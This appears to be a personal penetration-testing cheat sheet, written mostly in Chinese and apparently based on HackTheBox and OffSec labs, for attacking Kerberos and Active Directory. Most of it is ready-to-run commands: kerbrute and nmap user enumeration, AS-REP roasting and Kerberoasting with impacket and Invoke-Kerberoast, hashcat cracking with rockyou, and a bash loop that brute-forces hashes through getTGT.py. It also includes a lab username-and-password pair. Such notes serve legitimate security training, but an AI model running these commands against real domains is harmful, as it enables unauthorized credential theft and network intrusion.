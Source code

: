 **内网开放88，需要做端口转发注意 ： 需要开启88和389两个端口的转发**

**与域同步时间：**
```bash
sudo net time set -S 10.129.229.239
sudo ntpdate rebound.htb
```


###### kerburte 
Per-authentication Enum Username
```bash
./kerbrute_linux_amd64 userenum --domain LicorDeBellota.htb --dc 10.129.228.115 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 1000

~/tool/kerbrute_linux_amd64 userenum -d htb.local --dc htb.local user_list  
```

同样原理使用 NMAP 也是可以的
```bash
sudo nmap -6 -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='htb.local',userdb=./backup/user_list htb.local
```

###### AS-REP Roasting
非交互式的 Kerberos 预身份验证攻击 , 看是否某个⽤户碰巧有 `UF_DONT_REQUIRE_PREAUTH` 的标记设置为 true , 那就可以启动用户的 kerberos 认证过程，得到 hash
```bash
└─$ locate -i getnp                                                                              
/usr/bin/impacket-GetNPUsers                                                                     
/usr/share/doc/python3-impacket/examples/GetNPUsers.py
```

```bash
/usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.129.228.115 licordebellota.htb/ -usersfile user.list
```



###### GetUserSPNs.py (Kerberoasting)

![](photos/Pasted%20image%2020240204144112.png)

```bash
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.129.228.115 licordebellota.htb/Kaorz:Roper4155 -request
usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.129.228.115 licordebellota.htb/Kaorz:Roper4155
python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -request [-k 禁用NTLM 使用kerberos认证]
```

**无需域身份验证请求执行** 
使用于 GetNPUsers 获取 hash 无法破解等情况
https://github.com/fortra/impacket/tree/c3ff33b39fe067e738d5625ce174d3d10f7a4b79
获取用户 SPN
https://github.com/compwiz32/PowerShell/blob/master/Get-SPN.ps1
```bash
. .\spn.ps1
```

```bash
impacket-GetUserSPNs -no-preauth jjones -usersfile ~/HackTheBox/rebound/username -dc-ip 10.129.229.114 rebound.htb/
```


**本机登录后同样方式获得用户** SPN 的 hash：
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
保存 SPN 到系统中
```powershell
PS> Add-Type -AssemblyName System.IdentityModel  
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'
```
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1?source=post_page-----b95d3146cfe9--------------------------------
```powershell
. .\Invoke-Kerberoast.ps1
Invoke-Kerberoast
```
hash_raw 拿到 Sublime 处理格式，然后使用 hashcat 的-m 13100 Crack
`hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`


###### GetTGT.py
使用于匹配 hash 和 username，crackmapexec 有防火墙防爆破策略，使用 gettgt.py 暴力枚举匹配凭据
```bash
/usr/share/doc/python3-impacket/examples/getTGT.py
```

```bash
#!/bin/bash


while IFS='' read -r LINE || [ -n "${LINE}" ]
do
        echo "feed the Hash : ${LINE}"
        /usr/share/doc/python3-impacket/examples/getTGT.py htb.local/henry.vinson@htb.local -hashes ${LINE}

done < password_hash

```
`Hash需要完整 xxx:xxx`

